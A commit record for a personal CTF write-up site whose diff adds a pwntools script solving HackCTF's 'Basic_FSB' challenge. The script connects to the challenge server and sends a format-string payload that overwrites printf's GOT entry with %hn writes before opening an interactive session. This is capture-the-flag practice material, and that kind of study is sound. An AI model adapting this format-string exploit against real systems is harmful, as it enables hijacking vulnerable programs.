

Before and after one commit to HyD3c/HyD3c.github.io, a Jekyll site: the page built from _ctfs/2020-07-03-Basic_FSB.md, in a window 1280 px wide. Shown: the top 520 px of the page, without its empty margins (238-1036 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2020-07-03-Basic_FSB.md

```diff
--- a/_ctfs/2020-07-03-Basic_FSB.md
+++ b/_ctfs/2020-07-03-Basic_FSB.md
@@ -5,4 +5,14 @@ ctf: HackCTF
 tag: [pwnable]
 layout: post
 ---
-`asdf`
+{% highlight python %}
+from pwn import *
+
+context.log_level="debug"
+
+p = remote("ctf.j0n9hyun.xyz", 3002)
+printf_got=0x0804a00c
+
+p.sendline(p32(printf_got+2)+p32(printf_got)+"%2044p%2$hn%32176p%3$hn")
+p.interactive()
+{% endhighlight %}
```
